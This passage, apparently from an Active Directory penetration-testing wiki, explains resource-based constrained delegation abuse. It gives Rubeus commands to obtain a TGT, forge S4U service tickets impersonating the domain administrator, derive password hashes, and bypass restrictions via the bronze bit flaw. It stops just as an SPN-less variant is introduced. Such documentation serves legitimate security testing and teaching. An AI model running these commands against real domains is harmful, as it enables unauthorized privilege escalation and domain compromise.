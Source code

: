 [Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the TGT and "impersonation ST", and inject it for later use.

```powershell
# Request a TGT for the current user
Rubeus.exe tgtdeleg /nowrap
# OR - Request a TGT for a specific account
Rubeus.exe asktgt /user:"controlledaccountwithSPN" /aes256:$aesKey /nowrap

# Request the "impersonation" service ticket using RC4 Key
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"cifs/target" /domain:"domain" /user:"controlledaccountwithSPN" /rc4:$NThash
# OR - Request the "impersonation" service ticket using TGT Ticket of the controlledaccountwithSPN
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"host/target" /altservice:cifs,ldap /domain:"domain" /user:"controlledaccountwithSPN" /ticket:$kirbiB64tgt
```

The NT hash and AES keys can be computed as follows.

```powershell
Rubeus.exe hash /password:$password
Rubeus.exe hash /user:$username /domain:"domain.local" /password:$password
```

> [!CAUTION]
> In [some cases](./#theory), the delegation will not work. Depending on the context, the [bronze bit ](bronze-bit.md)vulnerability (CVE-2020-17049) can be used with the `/bronzebit` flag to try to bypass restrictions.

> [!TIP]
> The SPN (Service Principal Name) set can have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page_id=183)). There however scenarios where the SPN can be changed ([AnySPN](../ptt.md#modifying-the-spn)) to access more services. This technique can be exploited with the `/altservice` flag with Rubeus.

---
**Step 3**: Pass-the-ticket :passport_control: 

Once the ticket is injected, it can natively be used when accessing the service (see [pass-the-ticket](../ptt.md)).

:::


### RBCD on SPN-less users

In 2022, [Jame Forshaw](https://twitter.com/tiraniddo) demonstrated that the SPN requirement wasn't completely mandatory and RBCD could be operated without: [Exploiting RBCD using a normal user](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html). While this technique is a bit trickier and should absolutely be avoided on regular user accounts (the technique renders them unusable for normal people), it allows to abuse RBCD even if the [`MachineAccountQuota`](../../builtins/machineaccountquota.md) is set to 0. In this case, the first (edit the "rbcd" attribute) and last ("Pass-the-ticket") steps are the same. Only the "Obtain a ticket" step changes.

The technique is as follows:
